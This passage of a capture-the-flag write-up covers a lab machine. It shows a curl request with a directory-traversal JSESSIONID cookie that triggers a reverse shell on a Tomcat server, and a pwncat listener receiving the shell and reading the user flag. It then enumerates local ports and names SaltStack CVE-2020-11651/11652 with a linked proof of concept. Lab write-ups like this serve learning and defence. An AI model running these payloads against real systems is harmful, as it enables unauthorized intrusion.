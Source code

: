 * Executing reverse shell - 
```bash
╰─❯ curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/duck"
```

**Get tomcat shell**
```bash
❯ pwncat -lp 4141
[21:36:26] received connection from 10.10.10.205:33382                        connect.py:255
[21:36:32] new host w/ hash fc4ce837c64dfe9f096b06d0150a3288                   victim.py:321
[21:36:51] pwncat running in /usr/bin/bash                                     victim.py:354
[21:37:08] pwncat is ready 🐈                                                  victim.py:771

(remote) tomcat@VirusBucket:/$ cd
(remote) tomcat@VirusBucket:/home/tomcat$ id
uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
(remote) tomcat@VirusBucket:/home/tomcat$ cat user.txt 
28db6375************************
```

# Privesc Enumeration

* there are some port running on localhost -

```bash
(remote) tomcat@VirusBucket:/home/tomcat$ ss -lntp
State      Recv-Q     Send-Q              Local Address:Port          Peer Address:Port     Process                                                                                     
... [snip] ...
LISTEN     0          4096                    127.0.0.1:4505               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:4506               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:8000               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:36391              0.0.0.0:*                                                                                                    
 
```

* by default **saltstack** run on port 4505,4506 

**Saltstack** is Python-based, open-source software for event-driven IT automation, remote task execution, and configuration management.

**Found 2 CVEs** -

+ Authentication bypass vulnerabilities (CVE-2020-11651)
+ Directory traversal vulnerabilities (CVE-2020-11652)

**source: f-secure report:** [SaltStack authorization bypass](https://labs.f-secure.com/advisories/saltstack-authorization-bypass/)

**PoC_Script:** by [jasperla@github](https://github.com/jasperla/CVE-2020-11651-poc)
